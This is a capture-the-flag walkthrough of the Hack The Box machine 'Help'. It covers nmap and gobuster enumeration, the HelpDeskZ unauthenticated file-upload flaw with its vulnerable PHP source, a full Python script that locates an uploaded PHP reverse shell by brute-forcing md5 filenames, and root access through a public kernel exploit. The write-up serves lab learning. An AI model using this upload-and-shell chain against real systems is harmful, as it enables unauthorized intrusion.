 # Help - hack the box 

![EFe80A.png](https://s2.ax1x.com/2019/04/21/EFe80A.png)

## Introduction

Target: 10.10.10.121(Linux)

Kali: 10.10.16.28

To be honest, Help is not a difficult box. But there are some rabbit holes in the box. And in some case, you may come across some very strange situations. May you should step back, find if there is something wrong. For the PrivEsc of root, never give up trying the most basic method.

## Infomation Enumeration

Firstly, gather open ports and services:

```
# Nmap 7.70 scan initiated Sat Apr 20 02:13:56 2019 as: nmap -sC -sV -oA services 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (1.2s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 20 02:14:40 2019 -- 1 IP address (1 host up) scanned in 43.61 seconds
```

The port 80 seems to be an HTTP service. Access to `http://10.10.10.121`, nothing special but just the apache default web page. Try gobuster:

```
gobuster -u http://10.10.10.121 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.tx -t 50
```

We have found an interesting folder called: `support`:

![EFeHtx.png](https://s2.ax1x.com/2019/04/21/EFeHtx.png)

The 80 seems to be help support website. We will dive in  more later.

For the `3000` port, it seems to be an express application. And nothing found for this.

![EFeXcD.png](https://s2.ax1x.com/2019/04/21/EFeXcD.png)

## Exploitation

### http

In the above, we can see `HelpDeskZ` on the web page. It may be a kind of product. Search related exploits, `searchsploit HelpDeskZ`.

![EF0rkt.png](https://s2.ax1x.com/2019/04/21/EF0rkt.png)

There two exploits about `HelpDeskZ`. `Arbitrary File Upload` is interesting, it seems that it can be exploited without valid credentials. The payload can be seen [here](https://www.exploit-db.com/exploits/40300). It's really significant to understand the root cause of the exploit. So know the details of the payload will be beneficial.

The step of exploitation is:

1. Access to `http://10.10.10.121/support/?v=submit_ticket&action=displayForm`
2. Fill out all the fields on the web page, and submit the ticket.
3. Then run the script to exploit.

The script can be exploited, but should take care of some case. I have learned an import lesson from this box: if you stuck in some case for a long time and has not obtained the expected result. You should step back and see if there is anything wrong.

The reason of the exploit is: when submit a ticket, the attachment will be uploaded. And the uploaded file will be named as `md5(filename+filename_time)`. The source code is as [following](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers/submit_ticket_controller.php#L140):

<pre>
if(!isset($error_msg) && $settings['ticket_attachment']==1){
    $uploaddir = UPLOAD_DIR.'tickets/';        
    if($_FILES['attachment']['error'] == 0){
        $ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
        <b>$filename = md5($_FILES['attachment']['name'].time()).".".$ext;</b>
        $fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
        $uploadedfile = $uploaddir.$filename;
        if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
            $show_step2 = true;
            $error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
        }else{
            $fileverification = verifyAttachment($_FILES['attachment']);
            switch($fileverification['msg_code']){
                case '1':
                $show_step2 = true;
                $error_msg = $LANG['INVALID_FILE_EXTENSION'];
                break;
                case '2':
                $show_step2 = true;
                $error_msg = $LANG['FILE_NOT_ALLOWED'];
                break;
                case '3':
                $show_step2 = true;
                $error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
                break;
            }
        }
}    
</pre>

The most important code: `$filename = md5($_FILES['attachment']['name'].time()).".".$ext;`. We can find the rule of the name of the uploaded file. So it will be possible to find the uploaded attachment. And there is another stuff when submitted a reverse shell php file, you will get a hint: `File is not allowed`. However, the attachment has been uploaded. Because it will upload the attachment firstly. And then just give the error information.

![EFrlwj.png](https://s2.ax1x.com/2019/04/21/EFrlwj.png)

<pre>
<b>if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {</b>
    $show_step2 = true;
    $error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
}else{
    $fileverification = verifyAttachment($_FILES['attachment']);
    <b>switch($fileverification['msg_code']){</b>
        case '1':
        $show_step2 = true;
        <b>$error_msg = $LANG['INVALID_FILE_EXTENSION'];</b>
</pre>

Firstly, submit a ticket with the attachment of `a.php(php-reverse-shell.php` and will get error information `File is not allowed`. However, the script has been uploaded actually. 

![EFhf2j.png](https://s2.ax1x.com/2019/04/21/EFhf2j.png)

Then, try to run the script:

```
python exploit.py http://10.10.10.121/support/ a.php
```

In order to decrease the complexity of the md5 hash, the `php-reverse-shell.php` is renamed to `a.php`. However, there are two problems so that I obtain nothing for the whole afternoon. The first problem is the timezone. The uploaded filename depends on the file time. So it is important to keep the same timezone for the local machine and the server. We can find that the server timezone is GMT from the response header of Date. So modify the timezone of the local machine:

```bash
timedatectl set-timezone GMT
```

After modifying the timezone, still have not found anything. It has some problem with the url. Read the source code and you will find the upload directory should be: `UPLOAD_DIR.'tickets/`:

![EFhSUS.png](https://s2.ax1x.com/2019/04/21/EFhSUS.png)

Hence, the url should be `http://10.10.10.121/support/uploads/tickets/`. So run the script:

`python exploit.py http://10.10.10.121/support/uploads/tickets/ a.php`

I have modified the script slightly for my own purpose.

```python
import hashlib
import time
import sys
import requests
print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 1500):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    print "This is the " + str(x) + " time:"
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)
    else:
        print "has tried " + url + ":" + str(response.status_code)

print "Sorry, I did not find anything"
```

Remember to set nc listen to a port in the beginning. After some time, the shell is returned.

![EFhlvR.png](https://s2.ax1x.com/2019/04/21/EFhlvR.png)

## Privilege escalation

In contrast to the user shell, the root shell is extremely simple. But the basic method might be overlooked sometimes. Obtain root shell by kernel exploit is uncommon recently. But it never is insignificant to have a try. Obtain the kernel of the Linux by `uname a`:

`Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

Google for `linux kernel 4.4.0--116`. Congratulations! Find the [payload](https://github.com/SecWiki/linux-kernel-exploits/tree/master/2017/CVE-2017-16995). Just download the payload and compile. After execution, the root shell is obtained.

![EF4Ezd.png](https://s2.ax1x.com/2019/04/21/EF4Ezd.png)
